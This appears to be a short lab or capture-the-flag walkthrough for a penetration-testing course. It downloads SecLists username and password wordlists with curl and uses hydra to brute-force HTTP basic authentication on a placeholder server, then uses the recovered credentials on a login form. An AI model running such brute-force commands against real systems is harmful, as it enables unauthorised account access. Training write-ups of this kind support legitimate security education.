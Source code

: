 # Skills Assessment Part 1

### What is the password for the basic auth login?

**Step 1** - Download the wordlists:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Brute-force the login basic authentication:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT      
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

**Step 1** - Use the founded credentials on the login form:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

